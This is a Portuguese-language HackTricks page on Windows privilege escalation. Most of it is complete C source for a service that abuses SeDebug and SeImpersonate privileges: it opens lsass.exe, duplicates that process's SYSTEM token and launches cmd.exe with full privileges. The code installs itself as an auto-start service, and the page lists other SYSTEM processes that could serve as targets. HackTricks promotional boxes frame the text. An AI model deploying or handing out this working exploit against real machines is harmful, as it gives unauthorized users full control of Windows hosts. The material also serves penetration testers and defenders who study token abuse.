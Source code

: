 <details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>


O seguinte código **explora os privilégios SeDebug e SeImpersonate** para copiar o token de um **processo em execução como SYSTEM** e com **todos os privilégios do token**. \
Neste caso, este código pode ser compilado e usado como um **binário de serviço do Windows** para verificar se está funcionando.\
No entanto, a parte principal do **código onde ocorre a elevação** está dentro da **função `Exploit`**.\
Dentro dessa função, você pode ver que o **processo **_**lsass.exe**_** é procurado**, em seguida, seu **token é copiado**, e finalmente esse token é usado para iniciar um novo _**cmd.exe**_ com todos os privilégios do token copiado.

**Outros processos** em execução como SYSTEM com todos ou a maioria dos privilégios do token são: **services.exe**, **svhost.exe** (um dos primeiros), **wininit.exe**, **csrss.exe**... (_lembre-se de que você não poderá copiar um token de um processo Protegido_). Além disso, você pode usar a ferramenta [Process Hacker](https://processhacker.sourceforge.io/downloads.php) em execução como administrador para ver os tokens de um processo.
```c
// From https://cboard.cprogramming.com/windows-programming/106768-running-my-program-service.html
#include <windows.h>
#include <tlhelp32.h>
#include <tchar.h>
#pragma comment (lib, "advapi32")

TCHAR* serviceName = TEXT("TokenDanceSrv");
SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE serviceStatusHandle = 0;
HANDLE stopServiceEvent = 0;

//This function will find the pid of a process by name
int FindTarget(const char *procname) {

HANDLE hProcSnap;
PROCESSENTRY32 pe32;
int pid = 0;

hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

pe32.dwSize = sizeof(PROCESSENTRY32);

if (!Process32First(hProcSnap, &pe32)) {
CloseHandle(hProcSnap);
return 0;
}

while (Process32Next(hProcSnap, &pe32)) {
if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
pid = pe32.th32ProcessID;
break;
}
}

CloseHandle(hProcSnap);

return pid;
}


int Exploit(void) {

HANDLE hSystemToken, hSystemProcess;
HANDLE dupSystemToken = NULL;
HANDLE hProcess, hThread;
STARTUPINFOA si;
PROCESS_INFORMATION pi;
int pid = 0;


ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
ZeroMemory(&pi, sizeof(pi));

// open high privileged process
if ( pid = FindTarget("lsass.exe") )
hSystemProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, pid);
else
return -1;

// extract high privileged token
if (!OpenProcessToken(hSystemProcess, TOKEN_ALL_ACCESS, &hSystemToken)) {
CloseHandle(hSystemProcess);
return -1;
}

// make a copy of a token
DuplicateTokenEx(hSystemToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &dupSystemToken);

// and spawn a new process with higher privs
CreateProcessAsUserA(dupSystemToken, "C:\\windows\\system32\\cmd.exe",
NULL, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

return 0;
}


void WINAPI ServiceControlHandler( DWORD controlCode ) {
switch ( controlCode ) {
case SERVICE_CONTROL_SHUTDOWN:
case SERVICE_CONTROL_STOP:
serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
SetServiceStatus( serviceStatusHandle, &serviceStatus );

SetEvent( stopServiceEvent );
return;

case SERVICE_CONTROL_PAUSE:
break;

case SERVICE_CONTROL_CONTINUE:
break;

case SERVICE_CONTROL_INTERROGATE:
break;

default:
break;
}
SetServiceStatus( serviceStatusHandle, &serviceStatus );
}

void WINAPI ServiceMain( DWORD argc, TCHAR* argv[] ) {
// initialise service status
serviceStatus.dwServiceType = SERVICE_WIN32;
serviceStatus.dwCurrentState = SERVICE_STOPPED;
serviceStatus.dwControlsAccepted = 0;
serviceStatus.dwWin32ExitCode = NO_ERROR;
serviceStatus.dwServiceSpecificExitCode = NO_ERROR;
serviceStatus.dwCheckPoint = 0;
serviceStatus.dwWaitHint = 0;

serviceStatusHandle = RegisterServiceCtrlHandler( serviceName, ServiceControlHandler );

if ( serviceStatusHandle ) {
// service is starting
serviceStatus.dwCurrentState = SERVICE_START_PENDING;
SetServiceStatus( serviceStatusHandle, &serviceStatus );

// do initialisation here
stopServiceEvent = CreateEvent( 0, FALSE, FALSE, 0 );

// running
serviceStatus.dwControlsAccepted |= (SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
serviceStatus.dwCurrentState = SERVICE_RUNNING;
SetServiceStatus( serviceStatusHandle, &serviceStatus );

Exploit();
WaitForSingleObject( stopServiceEvent, -1 );

// service was stopped
serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
SetServiceStatus( serviceStatusHandle, &serviceStatus );

// do cleanup here
CloseHandle( stopServiceEvent );
stopServiceEvent = 0;

// service is now stopped
serviceStatus.dwControlsAccepted &= ~(SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
serviceStatus.dwCurrentState = SERVICE_STOPPED;
SetServiceStatus( serviceStatusHandle, &serviceStatus );
}
}


void InstallService() {
SC_HANDLE serviceControlManager = OpenSCManager( 0, 0, SC_MANAGER_CREATE_SERVICE );

if ( serviceControlManager ) {
TCHAR path[ _MAX_PATH + 1 ];
if ( GetModuleFileName( 0, path, sizeof(path)/sizeof(path[0]) ) > 0 ) {
SC_HANDLE service = CreateService( serviceControlManager,
serviceName, serviceName,
SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
SERVICE_AUTO_START, SERVICE_ERROR_IGNORE, path,
0, 0, 0, 0, 0 );
if ( service )
CloseServiceHandle( service );
}
CloseServiceHandle( serviceControlManager );
}
}

void UninstallService() {
SC_HANDLE serviceControlManager = OpenSCManager( 0, 0, SC_MANAGER_CONNECT );

if ( serviceControlManager ) {
SC_HANDLE service = OpenService( serviceControlManager,
serviceName, SERVICE_QUERY_STATUS | DELETE );
if ( service ) {
SERVICE_STATUS serviceStatus;
if ( QueryServiceStatus( service, &serviceStatus ) ) {
if ( serviceStatus.dwCurrentState == SERVICE_STOPPED )
DeleteService( service );
}
CloseServiceHandle( service );
}
CloseServiceHandle( serviceControlManager );
}
}

int _tmain( int argc, TCHAR* argv[] )
{
if ( argc > 1 && lstrcmpi( argv[1], TEXT("install") ) == 0 ) {
InstallService();
}
else if ( argc > 1 && lstrcmpi( argv[1], TEXT("uninstall") ) == 0 ) {
UninstallService();
}
else  {
SERVICE_TABLE_ENTRY serviceTable[] = {
{ serviceName, ServiceMain },
{ 0, 0 }
};

StartServiceCtrlDispatcher( serviceTable );
}

return 0;
}
```
<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
